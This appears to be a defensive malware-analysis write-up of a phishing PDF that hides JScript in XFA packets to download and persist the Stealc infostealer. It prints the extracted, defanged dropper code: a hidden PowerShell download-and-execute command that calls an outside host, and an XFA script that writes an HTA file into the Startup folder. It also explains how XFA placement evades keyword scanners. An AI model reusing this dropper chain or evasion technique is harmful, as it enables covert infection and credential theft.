

# Malicious PDF Analysis — Stealc Infostealer Dropper

Static analysis of a weaponized PDF that abuses Adobe XFA (XML Forms Architecture) to smuggle a JScript payload past standard PDF scanners, which in turn launches PowerShell to download and persist the **Stealc** infostealer.

**Environment:** REMnux (static analysis toolset — `pdfid`, `peepdf`, `pdf-parser`, `exiftool`)
**Analyst:** Jophiel Arevalo Enriquez

> **Note:** All URLs, domains, IPs, and executable filenames in this document are **defanged** (`hxxp`, `[.]`) per standard threat intel practice, to prevent accidental execution and to avoid tripping automated security tooling. No content here is live or directly executable.

---

## Verdict

| | |
|---|---|
| **Classification** | Malicious — PDF Downloader / Dropper |
| **Delivered Payload** | [Stealc](https://malpedia.caad.fkie.fraunhofer.de/details/win.stealc) (infostealer, MaaS) |
| **Lure** | Fake e-signature request (`Agreement_eSign.pdf`) |
| **Execution Vector** | XFA JScript → PowerShell → dual persistence (EXE + HTA in Startup folder) |
| **VT Detection** | 26/63 (file) · 14/91 (C2 domain) |

---

## 1. Sample Overview

| Property | Value |
|---|---|
| Filename (as received) | `PDF-lab.pdf` |
| Original lure filename | `Agreement_eSign.pdf` |
| File size | 87 kB (86,773 bytes) |
| PDF version | 1.5 |
| SHA256 | `3779f1b904ee4cf41f4a266505490682559d09337deb30a2cc08793c2e69385c` |
| Producer / Creator | Aspose.PDF for .NET 23.4.0 / Aspose Pty Ltd. |
| Has XFA | Yes |

Initial triage with `exiftool` and `sha256sum` to fingerprint the sample before touching anything else:


The Aspose.PDF producer string is notable — it's a legitimate .NET PDF-generation library, commonly abused to programmatically mass-produce phishing PDFs at scale rather than hand-craft them.

## 2. Threat Intelligence — File Hash

Checked the SHA256 against VirusTotal before going further:


**26/63** engines flagged it malicious. Popular threat label: `trojan.powershell`. Categories: trojan, downloader, phishing. This already points toward a PDF-as-downloader chain rather than a direct exploit.

The community tab confirmed the family attribution and original filename before I'd even opened the PDF's internals:


- Family: **Stealc**
- Original lure filename: `Agreement_eSign.pdf`
- Sample tracked publicly on MalwareBazaar / vx-underground

## 3. Static Structure — pdfid

```
pdfid.py PDF-lab.pdf
```


| Indicator | Count |
|---|---|
| obj / endobj | 23 / 23 |
| stream / endstream | 18 / 17 |
| /ObjStm | 1 |
| /AcroForm | 1 |
| /JS, /JavaScript, /OpenAction, /AA | **0** |
| /XFA | 0 |

**This is the key evasion detail.** A surface-level scan on `/JS`, `/JavaScript`, and `/OpenAction` comes back completely clean — the file looks benign to any tool or analyst only grepping the standard PDF action keywords. The malicious logic isn't stored where a normal PDF script would be; it's buried inside an **XFA data packet**, which most lightweight scanners don't parse.

## 4. Deep Structural Analysis — peepdf

```
peepdf -i -f PDF-lab.pdf
```


Where `pdfid` came back clean, `peepdf`'s deeper parser found what mattered:

- 31 objects, 17 streams, 8 **compressed objects**, 0 encryption, 1 parsing error (object 8)
- `Objects with JS code (1): [8]`
- Suspicious elements: `/Names [1, 11]`, `/AcroForm [1]`, `/XFA [3]`

## 5. Object Walkthrough — Tracing the XFA Chain

Walked the object references from the Catalog down to the actual XFA packets:


| Object | Role | Finding |
|---|---|---|
| **1** — Catalog | Document root | Points to `/AcroForm 3 0 R` |
| **3** — AcroForm | Form definition | `/Fields [ ]` — **empty**, a decoy; real content lives in `/XFA` array → `preamble(6) config(7) template(8) datasets(9) postamble(10)` |
| **6** — preamble | XFA XML header | Just the XDP wrapper, nothing malicious |
| **7** — config | **Payload #1** | XFA `<config>` packet with an injected `<script language="jscript">` under `dynamicRender` |

### Extracted payload — Object 7

```javascript
// DEFANGED — indicators neutralized for safe storage/viewing
var c = 'powershell -WindowStyle Hidden -Command "Invoke-WebRequest -Uri \"hxxps://brazilanimalshelp[.]com/updating/stale[.]exe\" -OutFile \"$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\SecurityUpdate[.]exe\"; Start-Process -FilePath \"$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\SecurityUpdate[.]exe\""';
new ActiveXObject('WScript.Shell').Run(c);
```

Cross-validated the exact same stream by extracting it a second way, via `pdf-parser` straight to a file — confirms `peepdf`'s reading wasn't a rendering artifact:

```
pdf-parser.py PDF-lab.pdf -o 7 -f -d powershell.txt
cat powershell.txt
```


**What it does:**
1. XFA JScript builds a PowerShell command string
2. PowerShell runs hidden (`-WindowStyle Hidden`) and downloads a second-stage binary from `brazilanimalshelp[.]com/updating/stale[.]exe`
3. Saves it directly into the **Startup folder**, renamed to `SecurityUpdate[.]exe` — disguised name + Startup placement = persistence on next login
4. Immediately executes it via `Start-Process`
5. The whole chain is fired through `new ActiveXObject('WScript.Shell').Run(c)` — XFA JScript escaping the PDF sandbox into OS command execution

## 6. Secondary Persistence — Object 8

`peepdf` had flagged a parsing error on object 8, which turned out to be a **second, independent script** in the XFA `template` packet:


```javascript
// DEFANGED — indicators neutralized for safe storage/viewing
timeout = app.setTimeout("event.target.exportXFAData({cPath: \"/c/users/\" + identity.loginName + \"/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/officeupdate[.]hta\"});", 500);
```

This one fires on the `docReady` event and abuses XFA's `exportXFAData()` method to write a second file — `officeupdate[.]hta` — into the same Startup folder using the victim's own login name. Two independent scripts, two independent drops into Startup: **redundant persistence**, so if one mechanism is caught or fails, the other still survives.

## 7. Infrastructure Check — Delivery Domain

Checked `brazilanimalshelp[.]com` on VirusTotal:


- **14/91** vendors flagged it malicious
- Community-confirmed: *"Stealc payload delivery server"* `#stealc #c2`
- Independent public research (Iamdeadlyz, Feb 2024) documents the identical chain and matches every IOC recovered in this analysis, down to file names and the C2 IP `194[.]120[.]116[.]120`

## 8. Malware Family Context — Stealc


Per Malpedia, Stealc is an information stealer advertised by its presumed developer "Plymouth" on Russian-speaking underground forums, sold as Malware-as-a-Service since January 2023, and built as a non-resident stealer with flexible data collection settings drawing on the design of Vidar, Raccoon, Mars, and Redline. It's written in C using WinAPI, primarily targets browsers, extensions, and cryptocurrency wallet applications, and pulls in several legitimate third-party DLLs to help harvest data before exfiltrating it file by file to its C2 over HTTP POST.

This matches the role of `stale[.]exe` in the chain above — the PDF is purely stage-1 delivery, with Stealc as the actual data-theft payload.

---

## Infection Chain



*Domain, URL, and IP values intentionally omitted from the diagram — see the IOC table below for defanged values.*

---

## Indicators of Compromise

| Type | Value |
|---|---|
| SHA256 (PDF dropper) | `3779f1b904ee4cf41f4a266505490682559d09337deb30a2cc08793c2e69385c` |
| Lure filename | `Agreement_eSign.pdf` |
| Delivery/C2 domain | `brazilanimalshelp[.]com` |
| Payload URL | `hxxps://brazilanimalshelp[.]com/updating/stale[.]exe` |
| Dropped file #1 | `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\SecurityUpdate[.]exe` |
| Dropped file #2 | `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\officeupdate[.]hta` |
| Stealc C2 IP | `194[.]120[.]116[.]120` |
| Persistence mechanism | Startup folder (auto-run at logon) — dual drop |

## MITRE ATT&CK Mapping

| Technique | ID |
|---|---|
| Phishing: Spearphishing Attachment | T1566.001 |
| User Execution: Malicious File | T1204.002 |
| Command and Scripting Interpreter: JScript (XFA) | T1059.007 |
| Command and Scripting Interpreter: PowerShell | T1059.001 |
| Ingress Tool Transfer | T1105 |
| Boot or Logon Autostart Execution: Startup Folder | T1547.001 |
| Obfuscated Files or Information (XFA-buried script) | T1027 |

## Key Takeaways

1. **Compressed objects:** 8
2. **Behavior summary:** The PDF's XFA layer runs a JScript that invokes PowerShell to fetch `stale[.]exe` from `brazilanimalshelp[.]com`, saving and renaming it to `SecurityUpdate[.]exe` in the Startup folder before executing it. A second, independent XFA script drops a companion `officeupdate[.]hta` into the same Startup folder, giving the dropper two separate persistence paths. OSINT ties the final payload to **Stealc**, an infostealer that harvests browser, crypto wallet, and application data and exfiltrates it to its C2.

## Tools Used

- `exiftool` — metadata extraction
- `sha256sum` — file hashing
- `pdfid.py` — surface-level PDF keyword scan
- `peepdf` — deep object/stream parsing and interactive object inspection
- `pdf-parser.py` — targeted object/stream extraction for cross-validation
- VirusTotal — file, domain, and community threat intel
- Malpedia — malware family reference
